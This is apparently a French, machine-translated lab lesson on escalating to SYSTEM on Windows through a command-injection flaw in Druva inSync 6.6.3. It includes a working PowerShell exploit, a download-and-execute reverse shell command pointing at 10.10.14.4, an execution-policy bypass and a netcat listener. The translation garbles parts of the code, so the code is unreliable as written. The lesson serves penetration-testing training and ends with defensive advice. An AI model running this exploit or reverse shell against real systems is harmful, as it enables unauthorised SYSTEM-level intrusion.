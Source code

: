 Services vulnérables
===================

* * * * *

Nous pouvons être en mesure d'élever les privilèges sur des systèmes bien corrigés et bien configurés si les utilisateurs sont autorisés à installer des logiciels ou si des applications/services tiers vulnérables sont utilisés dans toute l'organisation. Il est courant de rencontrer une multitude d'applications et de services différents sur les postes de travail Windows lors de nos évaluations. Examinons un exemple de service vulnérable que nous pourrions rencontrer dans un environnement réel. Certains services/applications peuvent nous permettre de passer à SYSTEM. En revanche, d'autres pourraient provoquer une condition de déni de service ou autoriser l'accès à des données sensibles telles que des fichiers de configuration contenant des mots de passe.

* * * * *

#### Énumération des programmes installés

Comme indiqué précédemment, commençons par énumérer les applications installées pour avoir un aperçu du terrain.

Énumération des programmes installés

```
C:\htb> nom d'obtention du produit wmic

Nom
Microsoft Visual C++ 2019 X64 Durée d'exécution minimale - 14.28.29910
Mise à jour pour Windows 10 pour les systèmes x64 (KB4023057)
Exécution supplémentaire Microsoft Visual C++ 2019 X86 - 14.24.28127
Outils VMware
Druva inSync 6.6.3
Outils de santé Microsoft Update
Exécution supplémentaire Microsoft Visual C++ 2019 X64 - 14.28.29910
Mise à jour pour Windows 10 pour les systèmes x64 (KB4480730)
Microsoft Visual C++ 2019 X86 Durée d'exécution minimale - 14.24.28127

```

La sortie semble généralement standard pour un poste de travail Windows 10. Cependant, l'application `Druva inSync` se démarque. Une recherche rapide sur Google montre que la version `6.6.3` est vulnérable à une attaque par injection de commande via un service RPC exposé. Nous pourrons peut-être utiliser [ce](https://www.exploit-db.com/exploits/49211) exploiter la PoC pour augmenter nos privilèges. À partir de cet [article de blog](https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/) qui détaille la découverte initiale de la faille, nous pouvons voir que Druva inSync est une application utilisé pour la "sauvegarde intégrée, la découverte électronique et la surveillance de la conformité", et l'application cliente exécute un service dans le contexte du puissant compte `NT AUTHORITY\SYSTEM` . L'escalade est possible en interagissant avec un service exécuté localement sur le port 6064.

#### Énumération des ports locaux

Faisons une énumération supplémentaire pour confirmer que le service fonctionne comme prévu. Un coup d'œil rapide avec `netstat` montre un service s'exécutant localement sur le port `6064`.

Énumération des ports locaux

```
C:\htb> netstat -ano | findstr 6064

   TCP 127.0.0.1:6064 0.0.0.0:0 ÉCOUTE 3324
   TCP 127.0.0.1:6064 127.0.0.1:50274 ÉTABLI 3324
   TCP 127.0.0.1:6064 127.0.0.1:50510 TIME_WAIT 0
   TCP 127.0.0.1:6064 127.0.0.1:50511 TIME_WAIT 0
   TCP 127.0.0.1:50274 127.0.0.1:6064 ÉTABLI 3860

```

#### ID de processus d'énumération

Ensuite, mappons l'ID de processus (PID) `3324` au processus en cours d'exécution.

ID de processus d'énumération

```
PS C:\htb> get-process -ID 3324

Gère NPM(K) PM(K) WS(K) CPU(s) Id SI ProcessName
------- ------ ----- ----- ------ -- -- -----------
     149 10 1512 6748 3324 0 inSyncCPHwnet64

```

#### Énumération du service en cours d'exécution

À ce stade, nous disposons de suffisamment d'informations pour déterminer que l'application Druva inSync est effectivement installée et en cours d'exécution, mais nous pouvons effectuer une dernière vérification à l'aide de la cmdlet `Get-Service` .

Énumération du service en cours d'exécution

```
PS C:\htb> get-service | ? {$_.DisplayName -like 'Druva*'}

Nom d'état DisplayName
------ ---- -----------
Exécution d'inSyncCPHService Service client Druva inSync

```

* * * * *

Exemple d'escalade de privilèges locaux du client Windows Druva inSync
-------------------------------------------------- ------------

#### PoC Druva inSync PowerShell

Avec ces informations en main, essayons l'exploit PoC, qui est ce court extrait de PowerShell.

Code : PowerShell

```
$ErrorActionPreference = "Arrêter"

$cmd = "utilisateur net pwnd /add"

$s = Nouvel objet System.Net.Sockets.Socket(
     [System.Net.Sockets.AddressFamily] :: InterNetwork,
     [System.Net.Sockets.SocketType] :: Flux,
     [System.Net.Sockets.ProtocolType] :: Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding] ::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter] ::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Envoyer($longueur)
$s.Envoyer($commande)

```

#### Modification de PowerShell PoC

Pour nos besoins, nous voulons modifier la variable `$cmd` à la commande souhaitée. Nous pouvons faire beaucoup de choses ici, comme ajouter un utilisateur administrateur local (ce qui est un peu bruyant, et nous voulons éviter de modifier les choses sur les systèmes clients dans la mesure du possible) ou nous envoyer un reverse shell. Essayons ceci avec [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Téléchargez le script dans notre boîte d'attaque et renommez-le simplement `shell.ps1`. Ouvrez le fichier et ajoutez ce qui suit au bas du fichier de script (en modifiant également l'adresse IP pour qu'elle corresponde à notre adresse et à notre port d'écoute) :

Modification de PowerShell PoC

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443

```

Modifiez la variable `$cmd` dans le script PoC de l'exploit Druva inSync pour télécharger notre reverse shell PowerShell en mémoire.

Code : PowerShell

```
$cmd = "powershell IEX(Nouvel objet Net.Webclient).downloadString('http://10.10.14.4:8080/shell.ps1')"

```

#### Démarrage d'un serveur Web Python

Ensuite, démarrez un serveur Web Python dans le même répertoire où réside notre script `script.ps1`.

Démarrage d'un serveur Web Python

```
dsgsec@htb[/htb]$ python3 -m http.serveur 8080

```

#### Attraper un shell SYSTEM

Enfin, démarrez un écouteur `Netcat` sur la boîte d'attaque et exécutez le script PoC PowerShell sur l'hôte cible (après [modification de la politique d'exécution PowerShell](https://www.netspi.com/blog/technical/network-penetration- testing/15-ways-to-bypass-the-powershell-execution-policy) avec une commande telle que `Set-ExecutionPolicy Bypass -Scope Process`). Nous retrouverons une connexion shell inversée avec les privilèges `SYSTEM` si tout se passe comme prévu.

Attraper un shell SYSTEM

```
dsgsec@htb[/htb]$ nc -lvnp 9443

écoute sur [tout] 9443 ...
se connecter à [10.10.14.3] depuis (INCONNU) [10.129.43.7] 58611
Windows PowerShell exécuté en tant qu'utilisateur WINLPE-WS01$ sur WINLPE-WS01
Copyright (C) 2015 Microsoft Corporation. Tous les droits sont réservés.

PS C:\WINDOWS\system32>whoami

autorité nt\système

PS C:\WINDOWS\system32> nom d'hôte

WINLPE-WS01

```

* * * * *

Passer à autre chose
---------

Cet exemple montre à quel point il peut être risqué d'autoriser les utilisateurs à installer des logiciels sur leurs machines et comment nous devons toujours énumérer les logiciels installés si nous atterrissons sur un serveur Windows ou un hôte de bureau. Les organisations doivent restreindre les droits d'administrateur local sur les ordinateurs des utilisateurs finaux en suivant le principe du moindre privilège. De plus, un outil de liste blanche d'applications peut aider à garantir que seuls les logiciels correctement vérifiés sont installés sur les postes de travail des utilisateurs.